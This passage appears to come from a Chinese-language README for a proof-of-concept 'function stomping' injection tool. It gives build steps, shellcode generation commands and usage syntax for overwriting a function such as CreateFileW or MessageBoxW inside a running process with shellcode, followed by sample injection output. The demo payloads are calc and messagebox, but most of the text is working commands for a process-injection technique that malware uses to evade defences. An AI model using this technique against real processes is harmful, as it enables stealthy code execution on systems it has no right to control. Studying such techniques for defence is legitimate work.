 ```bash
chmod +x build.sh
./build.sh
```

### 生成 Shellcode

```cmd
cd build

# 生成 calc.exe shellcode
generate_shellcode.exe calc

# 生成 messagebox shellcode
generate_shellcode.exe messagebox

# 生成所有 shellcode
generate_shellcode.exe all
```

### 运行注入

```cmd
# 语法
function_stomping.exe <pid> <shellcode.bin> <module_name> <function_name>

# 示例：覆盖 CreateFileW
start notepad
function_stomping.exe 1234 calc_shellcode.bin kernel32.dll CreateFileW

# 示例：覆盖 MessageBoxW
function_stomping.exe 1234 messagebox_shellcode.bin user32.dll MessageBoxW
```

**输出示例**：
```
[+] Function Stomping Injection POC
[+] Inspired by Module Stomping
[+] Original Research: Ido Veltzman (@Idov31)

[+] Loaded shellcode: 65 bytes

[+] Function Stomping Injection
[+] Target PID: 1234
[+] Target Module: kernel32.dll
[+] Target Function: CreateFileW
[+] Shellcode size: 65 bytes
[+] Opened target process
[+] Function base address: 00007FFE8C6F1234
[+] Changed protection to RW
[+] Successfully stomped the function! (65 bytes written)
[+] Changed protection to WCX (EXECUTE_WRITECOPY)

[+] Function stomping successful!
[!] You MUST call the function 'CreateFileW' from the target process to trigger execution!
[!] Example: If you stomped CreateFileW, the target must call CreateFileW to execute shellcode.

[+] Injection successful!
```
